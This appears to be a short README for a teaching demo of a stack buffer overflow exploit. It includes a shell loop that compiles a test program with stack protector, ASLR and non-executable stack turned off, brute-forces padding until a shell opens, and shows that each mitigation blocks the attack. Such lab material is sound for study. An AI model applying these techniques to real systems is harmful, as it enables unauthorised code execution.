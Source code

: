 This is an example stack smashing exploit for stack buffer overflow vulnerability.

I reproduced it in Ubuntu 24.04 (GCC 13.3.0-6ubuntu2~24.04).

Without stack protector and ASLR we enter shell:
```
$ sudo apt install gcc-multilib
$ PAD=
$ for i in `seq 0 127`; do
  echo PAD=$i

  # Disable all protections
  gcc -g -m32 -DPAD="\"$PAD\"" -march=i686 -Wl,-z,execstack -fno-stack-protector -w repro.c

  # Disable ASLR and clear environment for stable results
  setarch -R env -i ./a.out

  PAD="$PAD\\xff"
done
PAD=0
PAD=1
PAD=2
PAD=3
PAD=4
PAD=5
PAD=6
PAD=7
PAD=8
PAD=9
PAD=10
PAD=11
PAD=12
PAD=13
PAD=14
PAD=15
PAD=16
PAD=17
PAD=18
PAD=19
PAD=20
Segmentation fault (core dumped)
PAD=21
Segmentation fault (core dumped)
PAD=22
Illegal instruction (core dumped)
PAD=23
Segmentation fault (core dumped)
PAD=24
Segmentation fault (core dumped)
PAD=25
$ 
(enter shell)
```

With stack protector (remove `-fno-stack-protector`) we consistently get
```
*** stack smashing detected ***: terminated
Aborted (core dumped)
```

With ASLR (remove `setarch -R`) we consistently get
```
Segmentation fault (core dumped)
```

Based on ideas from https://github.com/npapernot/buffer-overflow-attack
